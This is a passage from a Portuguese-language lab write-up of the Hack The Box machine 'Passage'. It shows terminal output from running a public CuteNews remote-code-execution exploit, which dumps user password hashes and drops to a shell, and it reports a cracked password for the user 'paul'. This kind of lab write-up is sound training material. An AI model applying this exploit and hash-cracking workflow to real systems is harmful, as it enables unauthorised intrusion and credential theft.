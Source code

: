A partir da execução deste exploit não apenas pude obter uma execução remota de código mas também um dump dos hashes das senhas do portal. 

```
$ python3 48800.py



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: T6iejum4p0 and password: T6iejum4p0

=======================================================
Sending Payload
=======================================================
signature_key: 93cc9868982b197fd95de590c77cf9b9-T6iejum4p0
signature_dsi: 4afbd01426014d57617027ee835dc2ad
logged in user: T6iejum4p0
============================
Dropping to a SHELL
============================

command > 
```

Crackeando os hashes utilizando John, encontrei a senha **atlanta1**, que pertence ao usuário **paul**, o qual foi identificado após a edição do script Python conforme abaixo. 
